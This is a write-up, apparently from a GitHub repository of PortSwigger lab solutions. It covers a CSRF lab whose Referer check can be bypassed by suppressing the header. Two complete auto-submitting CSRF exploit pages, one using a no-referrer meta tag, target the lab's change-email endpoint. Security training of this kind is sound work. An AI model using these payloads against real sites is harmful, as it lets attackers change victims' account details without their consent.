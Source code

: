 ![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/f7f90272-3b22-4fc8-98fe-75c0da3d8ae8)

### Solution

Open Burp's browser and log in to your account. Submit the "Update email" form, and find the resulting request in your Proxy history

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/01a2774e-1a50-401d-86c4-f3d9cf213278)

Send the request to Burp Repeater and Generte the payload

```js
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a1800510312f70081de9dc2001700c5.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="abcd&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/6944f3d9-1817-4e10-a07d-fb360e881096)

when viewing the exploit it will show as invalid Referer header.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/ae186699-25a7-4597-9bca-f4a4b122854e)

Then Delete the Referer header entirely and observe that the request is now accepted.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/609baa69-4114-436f-b21b-849fadb1dacb)

request worked.

Create and host a proof of concept exploit as described in the solution to the CSRF vulnerability with no defenses lab. Include the following HTML to suppress the Referer header:

```js
<meta name="referrer" content="no-referrer">
```
now Generte the payload an insert this payload in that.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/c0b837c3-c266-4f48-8573-37f9dd130e0a)

now we will view the exploit

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/0bab7b53-6212-4f49-b6b0-86527fc531f6)

it worked

payload

```js
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <meta name="referrer" content="no-referrer">
    <form action="https://0a1800510312f70081de9dc2001700c5.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="a1234&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

deliver it to solve the lab

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/476133d3-897e-4aba-ba0f-5f8233343b2c)

lab solved succesfully
